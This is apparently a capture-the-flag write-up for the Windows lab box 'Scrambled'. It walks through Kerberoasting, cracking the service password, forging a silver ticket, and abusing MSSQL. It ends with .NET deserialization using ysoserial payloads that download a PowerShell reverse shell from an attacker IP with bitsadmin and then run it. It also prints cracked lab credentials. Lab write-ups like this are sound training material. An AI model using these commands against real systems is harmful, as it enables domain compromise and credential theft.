

# Box Info

|-------|---------|
| Name | Scrambled 🥚 |
| OS | Windows 🪟 |
| Rating | Easy |


## Enumration

## Nmap Scan

```text
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Scramble Corp Intranet
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-06-17 05:17:01Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
  DNS:DC1.scrm.local
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername:<unsupported>, DNS:DC1.scrm.local
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2022-06-17T05:18:22+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=DC1.scrm.local
  DNS:DC1.scrm.local
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2022-06-17T05:18:22+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername:<unsupported>, DNS:DC1.scrm.local
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time: 
|   date: 2022-06-17T05:17:47
|_  start_date: N/A
| ms-sql-info: 
|   10.10.11.168:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
4411/tcp open  found?
|     SCRAMBLECORP_ORDERS_V1.0.3;
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp open  mc-nmf  .NET Message Framing
```

## Enumrating the WEB-Server
The is nothing much on the web server but few things which can be noted:
- NTML Authentication is disabled
- Ksimpson can be valid username
- Reseted accounts have their passwords same as their username

## Getting a TGS
We validated the user `ksimpson` and it's password same as username using [Kerbrute](https://github.com/TarlogicSecurity/kerbrute)

And now using Impacket's `GetUserSPNs.py` we can see which service our user `ksimpson` can request for

```shell
$ python3 GetUserSPNs.py scrm.local/ksimpson:ksimpson -k -dc-ip DC1.scrm.local
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-03 12:32:02.351452  2022-06-18 01:25:31.173023             
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-03 12:32:02.351452  2022-06-18 01:25:31.173023  
```

So we can request a **TGS** for `sqlsvc` service using 
```shell
$ python3 spn.py scrm.local/ksimpson:ksimpson -k -dc-ip DC1.scrm.local -request
```

{: .important-title }
>{: .opaque }
> Issue with Impacket while using Kerberose Authentication
>
>  [Impacket Issue 1206](https://github.com/SecureAuthCorp/impacket/issues/1206)


After getting the `TGS` tried cracking it using `john` and got the password for the service's account `sqlsvc`

```shell
$ john ./krbtgs --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Pegasus60        (?)     
1g 0:00:00:15 DONE (2022-06-18 02:53) 0.06464g/s 693566p/s 693566c/s 693566C/s Peguero..Pearce
Use the "--show" option to display all of the cracked passwords reliably
Session completed.  
```

## Forging a Silver Ticket

To forge a `Silver Ticket` we need 
- Service account SPN
- Service account Password in NT hash format
- Domain SID

We can use a tool called [Go-WindapSearch](https://github.com/ropnop/go-windapsearch) to enumrate all users,computers and groups etc. Using this tool I got all users with their SPNs and SIDs

```shell
$ ./windapsearch -d 10.10.11.168 -u ksimpson@scrm.local -p ksimpson --secure -j -m users --full
```

After getting all the information we can use another useful Impacket tool called `ticketer` to forge a Silver Ticket

```shell
$ python3 ticketer.py -nthash B999A16500B87D17EC7F2E2A68778F05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local -dc-ip 10.10.11.168 -spn "MSSQLSvc/dc1.scrm.local"  Administrator
```


## Getting User

Then we can access the **MS SQL** service

```shell
$ export KRB5CCNAME=Administrator.ccache

$ impacket-mssqlclient -k DC1.scrm.local
```

From there got a username and a password
`MiscSvc : ScrambledEggs9900`

We can get a shell from here using `enable_cmd_xp` and executing command to get a powershell reverse shell

since we got the password for a user, we can switch to that user using 

```powershell
$user='scrm\MiscSvc';$pass='ScrambledEggs9900';try { Invoke-Command -ScriptBlock { <Reverse Shell here> } -ComputerName DC1 -Credential (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force)) } catch { echo $_.Exception.Message }
```

We can directly get the shell as `MiscSvc`

# Privilage Escalation

In the `Shares` folder we have access to `IT\Apps\` were we can find an `.exe` and a `.dll`. The Client to access the service on port `4411`.

To analyze the `.exe` and `.dll` I used `dotPeek` software.


`UploadOrder` is a command as well ==> `UPLOAD_ORDER`. On running this command it seems like it's doing some deserialization.

References :
+ [Insecure deserialization Json .Net](https://medium.com/r3d-buck3t/insecure-deserialization-with-json-net-c70139af011a)
+ [Yet another .Net deserialization](https://medium.com/@frycos/yet-another-net-deserialization-35f6ce048df7)
+ Reverse Shell used : [Ivan Sincek PowerShell reverse TCP](https://github.com/ivan-sincek/powershell-reverse-tcp)

```shell
C:\Users\Public\ysoserial-1.34\Release>ysoserial.exe -f BinaryFormatter -g WindowsIdentity -o base64 -c "bitsadmin /transfer n http://10.10.14.10/shell.ps1 C:\Temp\shell.ps1"

C:\Users\Public\ysoserial-1.34\Release>ysoserial.exe -f BinaryFormatter -g WindowsIdentity -o base64 -c "PowerShell -ExecutionPolicy Unrestricted -File C:\Temp\shell.ps1"
```

And we get shell as **Administrator**